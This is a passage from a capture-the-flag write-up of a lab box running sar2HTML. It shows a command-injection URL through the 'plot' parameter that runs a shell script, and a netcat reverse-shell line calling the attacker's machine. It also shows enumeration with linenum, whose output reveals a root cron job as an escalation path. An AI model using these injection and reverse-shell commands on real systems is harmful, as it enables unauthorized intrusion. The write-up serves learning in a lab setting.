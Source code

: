 Now back to the victim, and run the shell script:
>http://10.10.10.10/sar2HTML/index.php?plot=;./shell.sh
And boom, you got a shell!

Now, one thing I don't like about some people's write ups is that they aren't creative.  How else could you have done that?  Was there any other way?  I pondered for a niot here.  We could've served up netcat and run this on the victim:
>nc 10.10.10.11 -e /bin/bash
Or we could have explored the file system, did some digging in PHP and see if we could've uploaded a file to that uploads directory.  Remember that Kali has some basic webshells (/usr/share/webshells/php) so we could've tried that.  Maybe if we enumerated more, could we have found a login page and brute forced the login?  Plenty to think about for sure.  The methodology should always be to try the easy/simple stuff and work your way up the difficulty chain, but we're trying to learn everything we can here.  Take some notes on paths you might want to try and come back after you complete the box to try them.

## pwn
Now that we've got a webshell, we need to enumerate the box.  We're on an Ubunto box, so a few things should jump to mind: 1) can I sudo? 2) linenum.sh and 3) is there anything interesting in opt or the home directoies?  The first thing I do is "sudo -l" to see if I can run any commands with root privs.  No luck, I can't sudo.  Let's run linenum.

I like to run linenum 1 of 2 ways: just download it to the victim (put it in /tmp) or run it as is, just pipe the page to bash.  In this case, I used wget to download linenum from my attacker box, added chmod +X, and ran it.  The output is long so here are the highlights:
>### SYSTEM ##############################################
>[-] Kernel information:
>Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
>[-] Are permissions on /home directories lax:
>total 16K
>drwxr-xr-x  3 root     root     4.0K Jul 22 22:27 .
>drwxr-xr-x 24 root     root     4.0K Mar 10  2020 ..
>-rw-r--r--  1 www-data www-data   33 Jan  4 09:06 local.txt
>drwxr-xr-x 17 love     love     4.0K Jul 24 20:32 love
>
>[-] Crontab contents:
># /etc/crontab: system-wide crontab
># Unlike any other crontab you don't have to run the `crontab'
># command to install the new version when you edit this file
># and files in /etc/cron.d. These files also have username fields,
># that none of the other crontabs do.
>
>SHELL=/bin/sh
>PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
>
># m h dom mon dow user	command
>17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
>25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
>47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
>52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
>#
>*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
